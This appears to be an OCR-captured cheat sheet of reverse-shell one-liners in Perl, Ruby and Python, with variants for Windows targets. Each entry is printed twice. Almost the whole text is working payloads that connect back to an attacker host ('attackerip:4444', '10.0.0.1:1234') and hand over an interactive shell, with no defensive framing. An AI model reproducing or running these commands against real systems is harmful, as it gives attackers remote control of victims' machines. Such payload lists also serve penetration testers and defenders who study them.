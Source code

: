 **PERL:  
**

Shorter Perl reverse shell that does not depend on /bin/sh:

perl -MIO -e ‘$p=fork;exit,if\($p\);$c=new IO::Socket::INET\(PeerAddr,”attackerip:4444″\);STDIN-&gt;fdopen\($c,r\);$~-&gt;fdopen\($c,w\);system$\_ while&lt;&gt;;’

perl -MIO -e ‘$p=fork;exit,if\($p\);$c=new IO::Socket::INET\(PeerAddr,”attackerip:4444″\);STDIN-&gt;fdopen\($c,r\);$~-&gt;fdopen\($c,w\);system$\_ while&lt;&gt;;’

If the target system is running Windows use the following one-liner:

perl -MIO -e ‘$c=new IO::Socket::INET\(PeerAddr,”attackerip:4444″\);STDIN-&gt;fdopen\($c,r\);$~-&gt;fdopen\($c,w\);system$\_ while&lt;&gt;;’

perl -MIO -e ‘$c=new IO::Socket::INET\(PeerAddr,”attackerip:4444″\);STDIN-&gt;fdopen\($c,r\);$~-&gt;fdopen\($c,w\);system$\_ while&lt;&gt;;’

perl -e ‘use Socket;$i=”10.0.0.1″;$p=1234;socket\(S,PF\_INET,SOCK\_STREAM,getprotobyname\(“tcp”\)\);if\(connect\(S,sockaddr\_in\($p,inet\_aton\($i\)\)\)\){open\(STDIN,”&gt;&S”\);open\(STDOUT,”&gt;&S”\);open\(STDERR,”&gt;&S”\);exec\(“/bin/sh -i”\);};’

perl -e ‘use Socket;$i=”10.0.0.1″;$p=1234;socket\(S,PF\_INET,SOCK\_STREAM,getprotobyname\(“tcp”\)\);if\(connect\(S,sockaddr\_in\($p,inet\_aton\($i\)\)\)\){open\(STDIN,”&gt;&S”\);open\(STDOUT,”&gt;&S”\);open\(STDERR,”&gt;&S”\);exec\(“/bin/sh -i”\);};’

**RUBY:  
**

Longer Ruby reverse shell that does not depend on /bin/sh:

ruby -rsocket -e ‘exit if fork;c=TCPSocket.new\(“attackerip”,”4444″\);while\(cmd=c.gets\);IO.popen\(cmd,”r”\){\|io\|c.printio.read}end’

ruby -rsocket -e ‘exit if fork;c=TCPSocket.new\(“attackerip”,”4444″\);while\(cmd=c.gets\);IO.popen\(cmd,”r”\){\|io\|c.printio.read}end’

If the target system is running Windows use the following one-liner:

ruby -rsocket -e ‘c=TCPSocket.new\(“attackerip”,”4444″\);while\(cmd=c.gets\);IO.popen\(cmd,”r”\){\|io\|c.print io.read}end’

ruby -rsocket -e ‘c=TCPSocket.new\(“attackerip”,”4444″\);while\(cmd=c.gets\);IO.popen\(cmd,”r”\){\|io\|c.print io.read}end’

ruby -rsocket -e’f=TCPSocket.open\(“attackerip”,1234\).to\_i;exec sprintf\(“/bin/sh -i &lt;&%d &gt;&%d 2&gt;&%d”,f,f,f\)’

ruby -rsocket -e’f=TCPSocket.open\(“attackerip”,1234\).to\_i;exec sprintf\(“/bin/sh -i &lt;&%d &gt;&%d 2&gt;&%d”,f,f,f\)’

**PYTHON:  
**

python -c ‘import socket,subprocess,os;s=socket.socket\(socket.AF\_INET,socket.SOCK\_STREAM\);s.connect\(\(“10.0.0.1″,1234\)\);os.dup2\(s.fileno\(\),0\);os.dup2\(s.fileno\(\),1\); os.dup2\(s.fileno\(\),2\);p=subprocess.call\(\[“/bin/sh”,”-i”\]\);’

python -c ‘import socket,subprocess,os;s=socket.socket\(socket.AF\_INET,socket.SOCK\_STREAM\);s.connect\(\(“10.0.0.1″,1234\)\);os.dup2\(s.fileno\(\),0\);os.dup2\(s.fileno\(\),1\); os.dup2\(s.fileno\(\),2\);p=subprocess.call\(\[“/bin/sh”,”-i”\]\);’
